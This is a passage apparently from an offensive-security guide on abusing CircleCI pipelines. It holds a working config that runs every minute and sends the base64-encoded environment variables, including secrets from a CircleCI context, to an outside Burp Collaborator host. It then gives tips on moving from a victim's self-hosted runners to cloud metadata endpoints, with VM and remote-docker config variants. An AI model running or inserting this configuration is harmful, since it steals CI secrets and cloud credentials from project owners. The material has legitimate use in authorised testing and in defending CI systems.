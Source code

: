 ```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
      - exfil-env:
          context: Test-Context
```

> [!WARNING]
> Just creating a new `.circleci/config.yml` in a repo **isn't enough to trigger a circleci build**. You need to **enable it as a project in the circleci console**.

#### Escape to Cloud

**CircleCI** gives you the option to run **your builds in their machines or in your own**.\
By default their machines are located in GCP, and you initially won't be able to fid anything relevant. However, if a victim is running the tasks in **their own machines (potentially, in a cloud env)**, you might find a **cloud metadata endpoint with interesting information on it**.

Notice that in the previous examples it was launched everything inside a docker container, but you can also **ask to launch a VM machine** (which may have different cloud permissions):

```yaml
jobs:
  exfil-env:
    #docker:
    #  - image: cimg/base:stable
    machine:
      image: ubuntu-2004:current
```

Or even a docker container with access to a remote docker service:

```yaml
jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - setup_remote_docker:
          version: 19.03.13
```
